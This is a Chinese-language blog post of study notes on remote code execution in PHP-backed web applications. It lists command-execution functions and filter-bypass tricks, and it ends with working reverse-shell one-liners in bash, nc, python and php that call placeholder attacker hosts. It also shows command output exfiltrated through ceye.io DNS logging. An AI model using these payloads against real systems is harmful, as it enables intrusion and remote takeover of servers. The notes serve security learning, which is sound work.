 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      学习笔记-远程代码执行               # 标题 
subtitle:   对以前的笔记做整理的拓展
date:       2020-04-02             # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - 基础
---
```


## 0x00远程代码执行-介绍：  
**远程代码执行**又叫**RCE**，是指用户通过浏览器提交执行命令，由于服务器端没有针对执行函数做过滤，导致在没有指定绝对路径的情况下就执行命令，可能会允许攻击者通过改变 $PATH 或程序执行环境的其他方面来执行一个恶意构造的代码。
可能导致远程调用的方式来攻击计算机或者控制计算机，危害风险高。攻击者提交恶意构造语句提交时，便容易导致攻击成功。  

**简单的说：**  
> 应用程序有时需要调用执行系统命令的函数，例如PHP中的system、exec、shell_exec、passthru、popen、proc_popen等函数可以执行系统命令，当这些函数中的参数可控时，就可以拼接恶意命令到正常命令中，达到攻击的目的。
一般在测试命令执行漏洞是经常使用的是一些不会危害对方系统以及涉及太多机密文件的命令，只要能够证实可以命令执行就好。     

在此类攻击中我们需要熟知linux和windows下的系统命令，和一些特性，下面简单说一下有关的命令连接符；    
windows系统    
|  ：直接执行后面的命令   
|| ：如果前面的语句执行出错，则执行后面的语句，前面的语句只能为假。   
&：如果前面的语句为假，则直接执行后面的语句。前面的语句可以为真为假。   
&&:如果前面的语句为假，则直接出错。   
linux：   
；：执行完前面的再执行后面的语句。   
|  ：直接执行后面的命令   
|| ：如果前面的语句执行出错，则执行后面的语句，前面的语句只能为假。   
&：如果前面的语句为假，则直接执行后面的语句。前面的语句可以为真为假。   
&&:如果前面的语句为假，则直接出错。   

## 常见的运用知识点！！！    
代码执行的几种常见方式：  
${}执行代码：${phpinfo()};  
eval:eval('phpinfo();');  
assert:<?php assert($_POST['a']);?> ,php7.0.29后不支持动态调用  
preg_replace：加上/e才会执行代码  
create_function():创建匿名函数来实现  
call_user_func()/call_user_func_array()：调用回调函数执行  
array_filter()：将数组中的值传入下一个参数，也就是传入callback函数。  

命令执行的几种常见方式：  
system()  
passthru()  
exec()  
shell_exec()  
反引号  
ob_start()：打开输出缓冲，需要输出的内容都在内部缓冲区中，然后通过ob_end_fluch()输出。ob_start('system'),echo "ls",ob_end_flush()；即可完成攻击    
mail函数+LD_PRELOAD执行系统命令：首先LD_PRELOAD加载动态链接库（我们事先上传的重新定义了mail函数会调用的一个库函数的so文件），然后通过mail函数会调用标准库函数来完成命令执行。  

接下来总结一下rce中收集到的绕过姿势：  
- 空格（被过滤）：在bash下可以用以下字符代替空格：$IFS,${IFS},<>,<,以及空参数%09这些  
- 命令分隔符：%0a，%0d，";"，&，|  
- 敏感字符(黑名单)绕过：  
①使用变量组合：$a=l;$b=s;$a$b   
②利用bash编码：转化为base64等  
③使用未定义的初始化变量放置在敏感词后面
④使用连接符单引号，双引号，反斜线这些  
⑤利用1>sh/1>ell.php这样的方式创建文件，然后利用ls -t>a,把内容存进a中再利用`sh a`这样的命令来执行，通常运用在有长度限制的过滤中使用  
⑥如果使用到网络地址，可以将网络地址转化为数字地址进行ip过滤  
⑦通配符？绕过，?a?在linux中可使用cat。
⑧从已有的环境变量或者文件中获取相应的字符，利用shell处理

对于无回显的命令执行，我们怎么才能知道呢？：  
①一句话反弹shell到自己的vps：|bash -i >& /dev/tcp/xxxxxI(你的vps的公网ip)/8080 0>&1  
②利用ceye平台，使用curl访问的时候会记录在平台上面或者注册ceye.io后我们会有一个三级域名，ping `命令`.我们的域名，就可以在ceye平台上看到解析日志和命令回显。  

添加一些命令执行用到的一句话反弹shell：  
```bash -i >& /dev/tcp/1.2.3.4/9527 0>&1```    
```nc -e /bin/sh 1.2.3.4 9527```    
```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1.2.3.4",9527));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```   
``` php -r '$sock=fsockopen("192.168.37.131",1234);exec("/bin/sh -i <&3 >&3 2>&3");'```    
其中含有/bin/sh的命令，会涉及到标准输入、标准输出、标准错误输出的重定向。实际情况需要根据命令执行条件来getshell如果可以的话。
